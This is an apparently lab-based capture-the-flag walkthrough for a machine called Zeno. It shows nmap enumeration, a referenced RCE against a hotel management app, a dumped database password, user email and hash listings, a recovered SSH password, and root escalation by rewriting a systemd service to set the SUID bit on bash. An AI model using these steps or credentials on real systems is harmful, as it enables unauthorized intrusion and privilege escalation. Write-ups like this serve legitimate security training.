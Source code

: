 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx zeno.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV zeno.thm
```

we got these open ports
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```


Rms hotel managent has a rce : https://www.exploit-db.com/exploits/47520

define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');


    15 | Stephen   | Omolewa            | omolewastephen@gmail.com | 81dc9bdb52d04dc20036dbd8313ed055 |           9 | 51977f38bb3afdf634dd8162c7a33691 |
|        16 | John      | Smith              | jsmith@sample.com        | 1254737c076cf867dc53d60a0364f38e |           8 | 9f2780ee8346cc83b212ff038fcdb45a |
|        17 | edward    | zeno               | edward@zeno.com          | 6f72ea079fd65aff33a67a3f3618b89c


/etc/systemd/system/multi-user.target.wants/zeno-monitoring.service
/etc/systemd/system/zeno-monitoring.service

in /etc/fstab, we see the secret_shared folder mounted and we found the password of edward
edward:FrobjoodAdkoonceanJa

we can use it to connect at SSH
Once we are connected, we can see there is a sudo right to use reboot

so we edit the zeno-monitoring.service ExecStart by : /usr/bin/chmod u+s /bin/bash
then we connect and could use suid as bash -p
